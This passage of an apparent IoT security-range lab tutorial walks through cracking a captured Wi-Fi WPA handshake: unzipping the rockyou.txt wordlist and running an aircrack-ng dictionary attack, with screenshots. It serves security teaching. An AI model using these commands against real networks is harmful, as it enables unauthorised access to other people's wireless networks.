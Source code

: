 ### Unzip the rockyou.txt file
We will be using a text file called rockyou.txt. This contains the dictionary for our dictionary attack. Because text files are easily compressible, rockyou.txt is typically compressed to save space unless people need it.
![Screenshot](https://github.com/CRLTeam/IoTRange/blob/main/images/wifi-cracking/image6.png?raw=true)

`sudo gunzip /usr/share/wordlists/rockyou.txt.gz`

### Crack the handshake

We use the following command to crack the handshake

`sudo aircrack-ng /home/kali/handshakedump/handshakedump-01.cap -w /usr/share/wordlists/rockyou.txt`

Where:

/home/kali/handshakedump/handshakedump-01.cap

Is the location of your captured handshake, and,

-w /usr/share/wordlists/rockyou.txt

is the -w flag for wordlist, and the directory of the wordlist.

If you are ever confused about the full path of the directory you are in, use command ‘pwd’ to see the full path.

### The handshake is cracked!
![Screenshot](https://github.com/CRLTeam/IoTRange/blob/main/images/wifi-cracking/image4.png?raw=true)
